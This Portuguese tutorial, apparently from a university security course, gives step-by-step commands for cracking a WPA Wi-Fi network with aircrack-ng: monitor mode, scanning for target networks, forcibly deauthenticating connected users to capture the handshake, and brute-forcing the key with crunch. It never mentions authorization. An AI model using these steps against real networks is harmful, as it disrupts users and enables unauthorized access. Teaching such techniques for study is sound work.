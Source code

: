 <h1>Prática Ubuntu</h1>
<p>
Instale o aircrack-ng:
</p>

<p>
<pre><code>sudo apt-get update
sudo apt-get install aircrack-ng
</code></pre>
</p>

<p>
Verificar o nome da sua interface Wi-FI:
</p>

<p>
<pre><code>iwconfig
</code></pre>
</p>
<img src="https://github.com/cavalcantteme/Seguranca20181/blob/master/Pratica_Invasao_WiFi/ubuntu/imagens/iwconfig.png"/>

<p>
Após verificar o nome da interface, deve-se verificar se o Ubuntu está reconhecendo o driver da interface sem fio:
</p>

<p>
<pre><code>sudo airmon-ng
</code></pre>
</p>
<img src="https://github.com/cavalcantteme/Seguranca20181/blob/master/Pratica_Invasao_WiFi/ubuntu/imagens/airmon-ng.png"/>

<p>
verificar se tem algum processo que pode acabar atrapalhando o processo de captura de pacotes:
</p>

<p>
<pre><code>sudo airmon-ng check kill
</code></pre>
</p>
<img src="https://github.com/cavalcantteme/Seguranca20181/blob/master/Pratica_Invasao_WiFi/ubuntu/imagens/checkill.png"/>

<p>
Vamos colocar nossa placa de rede em modo monitor:
</p>

<p>
<pre><code>sudo airmon-ng start [nome_da_sua_interface_wireless]
iwconfig
</code></pre>
</p>
<img src="https://github.com/cavalcantteme/Seguranca20181/blob/master/Pratica_Invasao_WiFi/ubuntu/imagens/iwconfig2.png"/>

<p>
Quando a placa estiver pronta para monitorar, podemos ver quais são as redes disponíveis para nossos possíveis ataques.
</p>

<p>
<pre><code>sudo airodump-ng [nome_da_sua_interface_wireless]
</code></pre>
<img src="https://github.com/cavalcantteme/Seguranca20181/blob/master/Pratica_Invasao_WiFi/ubuntu/imagens/airodump-ng.png"/>
<img src="https://github.com/cavalcantteme/Seguranca20181/blob/master/Pratica_Invasao_WiFi/ubuntu/imagens/airodump-ng2.png"/>

<p>
Após selecionar a rede alvo, utilizaremos algumas de suas informações. Você pode guardá-las em um bloco de notas. As informações são as seguintes:<br />
</p>
<ul>
<li><strong>BSSID:</strong> <em>Basic Service Set Identifier</em> se refere ao endereço MAC de um adaptador sem fio ou de um ponto de acesso.Sua função é identificar exclusivamente um ponto de acesso que enviará sinais pra transmissão da rede sem fio.</li>
<li><strong>CH:</strong> Canal na qual a rede está operando.</li>
<li><strong>ESSID:</strong> nome que é visível na rede.</li>
</ul>

<p>
Agora que temos a rede alvo, iremos monitorá-la usando algumas das informações adquiridas que guardamos em um bloco de notas anteriormente. É importante que pelo menos 300 pacotes de dados tenham passado pela rede para garantir que o <strong>WPA HANDSHAKE</strong> seja capturado.
<p>
<pre><code>sudo airodump-ng -c [canal_da_rede_alvo] --bssid [bssid_da_rede_alvo] -w dados [nome_da_sua_interface_wireless]
</code></pre>
</p>
<img src="https://github.com/cavalcantteme/Seguranca20181/blob/master/Pratica_Invasao_WiFi/ubuntu/imagens/airodump-ng3.png"/>
<img src="https://github.com/cavalcantteme/Seguranca20181/blob/master/Pratica_Invasao_WiFi/ubuntu/imagens/airodump-ng4.png"/>

<p>
Hora de capturar o tão esperado WPA HANDSHAKE. Para que seja capturado, é preciso que alguém se conecte à à rede. Há duas opções: você espera a oportunidade que algum usuário se conecte ou você pode desautenticar quem já está conectado e capturar o WPA HANDSHAKE logo que o usuário se reconectar. Usaremos a segunda opção!
<p>
<pre><code>sudo aireplay-ng -0 10 -a [bssid_da_rede_alvo] [nome_da_sua_interface_wireless]
</code></pre>
</p>
<img src="https://github.com/cavalcantteme/Seguranca20181/blob/master/Pratica_Invasao_WiFi/ubuntu/imagens/aireplay-ng.png"/>

<p>
Verificar o <strong>WPA HANDSHAKE</strong> capturado no arquivo criado anteriormente na execução do comando de captura. No caso deste tutorial, o arquivo criado recebeu o nome “dados”. Dê o seguinte comando no seu diretório atual:
</p>
<pre><code>ls
sudo aircrack-ng dados-01.cap
</code></pre>
</p>
<img src="https://github.com/cavalcantteme/Seguranca20181/blob/master/Pratica_Invasao_WiFi/ubuntu/imagens/ls.png"/>

<p>
Caso não já tenha instalado, será necessário a instalação do programa crunch:
</p>
<p>
<pre><code>sudo apt-get update
</code></pre>
</p>
<p>
<pre><code>sudo apt-get install crunch
</code></pre>
</p>

<p>
Hora de quebrar no Brute Force:
</p>
<p>
<pre><code>sudo crunch [min] [max] [padrão] | aircrack-ng [net-01.cap] -w - -e [essid_da_rede_alvo]
</code></pre>
</p>
<img src="https://github.com/cavalcantteme/Seguranca20181/blob/master/Pratica_Invasao_WiFi/ubuntu/imagens/crunch.png"/>

<p>
Você também pode usar o seguinte comando, caso deseje começar a busca a partir de uma determinada combinação dentro padrão.
</p>
<p>
<pre><code>sudo crunch [min] [max] [padrão] -s [combinação] | aircrack-ng [net-01.cap] -w - -e [essid_da_rede_alvo]
</code></pre>
<p>
<img src="https://github.com/cavalcantteme/Seguranca20181/blob/master/Pratica_Invasao_WiFi/ubuntu/imagens/crunch2.png"/>

Ao final, temos de reativar o nosso network-manager pois ao usar o comando check kill ele o desativa.
</p>

<p>
<pre><code>sudo service network-manager start
</code></pre>
</p>
<img src="https://github.com/cavalcantteme/Seguranca20181/blob/master/Pratica_Invasao_WiFi/ubuntu/imagens/network-manager.png"/>

